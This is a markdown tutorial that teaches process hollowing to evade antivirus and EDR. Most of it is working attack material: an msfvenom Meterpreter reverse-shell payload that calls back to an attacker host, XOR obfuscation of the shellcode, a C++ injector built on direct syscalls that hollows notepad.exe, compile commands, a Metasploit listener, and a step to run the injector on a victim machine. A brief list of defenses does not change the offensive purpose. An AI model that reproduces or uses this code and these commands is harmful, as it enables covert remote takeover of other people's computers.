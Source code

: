 # Advanced Guide: Process Hollowing for AV/EDR Evasion

## 🎭 **1. What is Process Hollowing?**

Process Hollowing is a technique where:

1. A suspended process of a legitimate binary (e.g., `notepad.exe`) is created.
2. Its code is replaced with a malicious payload.
3. The process is resumed with the malicious code running in its memory space.

This technique helps evade many antivirus solutions because the process appears legitimate.

---

## 🛠 **2. Generate the Meterpreter Payload**

Run on Kali Linux:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=PORT -f raw -o shellcode.bin
```

- `LHOST`: Attacker's IP.
- `LPORT`: Listening port.

---

## 🏗 **3. Encrypt the Shellcode**

To evade detection, we apply a simple XOR encryption:

```python
shellcode = open("shellcode.bin", "rb").read()
encrypted_shellcode = bytearray([b ^ 0x55 for b in shellcode])

with open("shellcode_encrypted.bin", "wb") as f:
    f.write(encrypted_shellcode)
```

This `shellcode_encrypted.bin` will be included in `encrypted_shellcode[]` in the C++ code.

---

## 💻 **4. Improved C++ Code**

This code uses **direct syscalls** to avoid antivirus detection:

```cpp
#include <windows.h>
#include <iostream>
#include <vector>
#include "syscalls.h"  // Direct syscalls implementation

unsigned char encrypted_shellcode[] = { /* Encrypted Shellcode */ };
size_t shellcode_size = sizeof(encrypted_shellcode);

void decrypt_shellcode(unsigned char* shellcode, size_t size) {
    for (size_t i = 0; i < size; i++) {
        shellcode[i] ^= 0x55;
    }
}

int main() {
    STARTUPINFOA si = { 0 };
    PROCESS_INFORMATION pi = { 0 };
    if (!NtCreateProcess("C:\\Windows\\System32\\notepad.exe", &si, &pi)) {
        std::cerr << "Error creating process" << std::endl;
        return 1;
    }
    CONTEXT ctx;
    ctx.ContextFlags = CONTEXT_FULL;
    NtGetThreadContext(pi.hThread, &ctx);
    LPVOID alloc = NULL;
    NtAllocateVirtualMemory(pi.hProcess, &alloc, 0, &shellcode_size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    decrypt_shellcode(encrypted_shellcode, shellcode_size);
    NtWriteVirtualMemory(pi.hProcess, alloc, encrypted_shellcode, shellcode_size, NULL);
    #ifdef _WIN64
        ctx.Rip = (DWORD64)alloc;
    #else
        ctx.Eip = (DWORD)alloc;
    #endif
    NtSetThreadContext(pi.hThread, &ctx);
    NtResumeThread(pi.hThread);
    std::cout << "Process successfully injected" << std::endl;
    return 0;
}
```

---

## 🔧 **5. Compile the Code**

### 📌 **With MinGW**

```bash
x86_64-w64-mingw32-g++ process_hollowing_adv.cpp -o injector.exe -static -lntdll
```

### 📌 **With Visual Studio**

```bash
cl.exe /EHsc process_hollowing_adv.cpp /Fe:injector.exe
```

---

## 🎯 **6. Set Up Metasploit to Receive the Connection**

```bash
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST YOUR_IP
set LPORT PORT
exploit
```

---

## 🚀 **7. Execute the Injector on the Victim Machine**

```bash
injector.exe
```

If everything goes well, `notepad.exe` will open, but it will actually be running **Meterpreter** in the background.

---

## 🛡 **8. How to Defend Against It**

To make the report more complete, mention defenses against this attack:
✅ **Windows Defender ASR Rules** → Block suspended processes. ✅ **Sysmon + SIEM** → Detect processes writing into other processes. ✅ **EDR (CrowdStrike, SentinelOne, etc.)** → Monitor memory code execution.

---

## 📌 **Conclusion**

✅ Now you have an `injector.exe` with **direct syscalls, encryption, and fewer forensic indicators**. If you want more improvements like **injection into other processes or anti-debugging techniques**, keep researching! 😈🚀



